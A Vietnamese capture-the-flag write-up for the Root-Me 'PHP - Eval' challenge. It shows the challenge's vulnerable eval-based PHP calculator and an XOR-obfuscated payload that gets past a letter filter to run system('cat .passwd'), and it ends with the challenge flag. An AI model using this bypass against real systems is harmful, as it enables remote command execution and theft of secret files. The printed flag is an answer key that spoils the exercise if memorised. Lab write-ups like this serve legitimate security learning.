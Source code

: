 # PHP - EVAL

## Mô tả
Link: 
>https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval

Category: Web, 40 points

Giao diện chính

![image](https://user-images.githubusercontent.com/72856776/115710947-258b2100-a39d-11eb-98a3-d4ea0a9adb1f.png)
## Hint
`Note : the flag is in .passwd file.`
## Source Code
```php
<html>
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>
```
## Phương pháp
Sau khi đọc Hint mình nghĩ flag sẽ nằm trong file .passwd vì vậy ta cần phải "cat" được nó, bằng cách sử dụng hàm system. Nhưng nhìn vào source ta sẽ thấy, cần phải bypass được hàm preg_match để thực hiên được hàm system thông qua hàm eval. Để thực hiện được điều đó ta cần viết được payload có thể bypass các filter trên `[a-zA-Z]`.

Sau khi tham khảo một số nguồn thì mình tìm được 1 link viết khá đầy đủ về ý tưởng bypass filter này
>https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/

Trong này sẽ nêu ra 2 phương pháp. Nhưng sau khi đọc và được hướng dẫn thì mình quyết định sử dụng phương pháp sử dụng hàm XOR trong PHP. Về cơ bản thì hàm này sẽ XOR 2 kí tự với nhau để trả về 1 kí tự khác. Vì vậy ta có thể sử dụng chữ số hoặc kí tự đặc biệt để XOR ra những từ ta cần dùng trong viết code (cũng vì thế mà code sẽ nhìn khá cục súc).

Đây là code mình sử dụng để bypass chall này
```php
<?php
$_= ("3934%@"^"@@@@@-");      //$_= system;
$__= ("@@4"^"#!@");           //$__= cat;
$___= (".!337$"^"^@@@@@");    //$___= passwd;
$____= ("$__ .$___");         //$____= cat .passwd;
$_($____);                    //system(cat .passwd);
?>
```
Sau khi submit, server sẽ trả về cho ta kết quả

![image](https://user-images.githubusercontent.com/72856776/115714080-f080cd80-a3a0-11eb-88e7-edc35123cae6.png)

Mình cũng không rõ cái system nó ở đâu ra nên đã mặc kệ :v 
## Flag
>M!xIng_PHP_w1th_3v4l_L0L
